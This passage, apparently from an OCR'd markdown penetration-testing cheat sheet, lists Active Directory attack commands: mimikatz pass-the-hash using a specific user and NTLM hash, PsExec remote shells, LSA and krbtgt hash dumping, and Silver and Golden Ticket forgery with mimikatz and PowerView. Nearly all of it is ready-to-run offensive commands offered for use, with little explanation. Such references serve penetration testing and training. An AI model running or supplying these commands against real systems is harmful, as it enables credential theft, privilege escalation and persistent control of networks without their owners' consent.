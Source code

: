 ```powershell
mimikatz.exe "sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe" "exit"
```

-> Command execution with psexec  
```powershell
.\PsExec.exe \\<hostname> cmd.exe
```

### Silver Ticket - Pass the Ticket
-> It is a persistence and elevation of privilege technique in which a TGS is forged to gain access to a service in an application.

-> Get SID
```powershell
GetDomainsid (PowerView)
```
or  
```powershell
whoami /user
```
-> Get Machine Account Hash
```powershell
Invoke-Mimikatz '"lsadump::lsa /patch"' -ComputerName <hostname_dc>
```
-> Exploitation mimikatz.exe
```powershell
kerberos::purge
kerberos::list
kerberos::golden /user:<user> /domain:<domain> /sid:<sid> /target:<hostname.domain> /service:HTTP /rc4:<ervice_account_password_hash> /ptt
```
or
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain> /sid:<domainsid> /target:<dc>.<domain> /service:HOST /rc4:<machine_account_hash> /user:Administrator /ptt"'
kerberos::list
```

### Golden Ticket - Pass the Ticket
-> It is a persistence and elevation of privilege technique where tickets are forged to take control of the Active Directory Key Distribution Service (KRBTGT) account and issue TGT's.

-> Get hash krbtgt
```powershell
./mimikatz.exe "privilege::debug" "lsadump::lsa /patch"
```
-> Get SID
```powershell
GetDomainsid (PowerView)
```
or  
```powershell
whoami /user
```
